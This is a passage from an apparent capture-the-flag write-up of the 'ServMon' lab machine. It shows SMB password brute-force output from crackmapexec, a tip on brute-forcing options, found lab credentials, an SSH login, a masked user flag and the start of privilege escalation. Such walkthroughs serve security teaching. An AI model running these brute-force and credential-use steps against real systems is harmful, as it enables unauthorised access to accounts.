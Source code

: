 ```bash
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\Nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
```

>Don't forget to use `--continue-on-success` option while brute forceing with `crackmapexec` because in some scenarios more than on users might have the same password. This option will continue the brute force until the end of list.
{: .prompt-tip }

#### Found Credentials

From the output, we found a working credentials - `Nadine`:`L1k3B1gBut7s@W0rk`.

### Shell as Nadine

Since the SSH port (TCP 22) is open, we can try to login with these credentials.

```bash
0hmsec@kali:-$ ssh Nadine@10.10.10.184
The authenticity of host '10.10.10.184 (10.10.10.184)' can't be established.
ED25519 key fingerprint is SHA256:WctzSeuXs6dqa7LqHkfVZ38Pppc/KRlSmEvNtPlwSoQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.184' (ED25519) to the list of known hosts.
Nadine@10.10.10.184's password: 

Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>
```

#### USER flag

Thus, we have found our `user.txt` flag.

```bash
nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
27f0f2ee608...................
```

---

## Privilege Escalation

Earlier, from the file on ftp - "Notes to do.txt" and the service running on port 8443, we found out about `NSClient++`.

```bash
nadine@SERVMON c:\Program Files>dir 
 Volume in drive C has no label. 
 Volume Serial Number is 20C1-47A1

 Directory of c:\Program Files

02/28/2022  06:55 PM    <DIR>          .
02/28/2022  06:55 PM    <DIR>          ..
03/01/2022  01:20 AM    <DIR>          Common Files
11/11/2019  06:52 PM    <DIR>          internet explorer
02/28/2022  06:07 PM    <DIR>          MSBuild
02/28/2022  06:55 PM    <DIR>          NSClient++
02/28/2022  06:46 PM    <DIR>          NVMS-1000
02/28/2022  06:32 PM    <DIR>          OpenSSH-Win64
```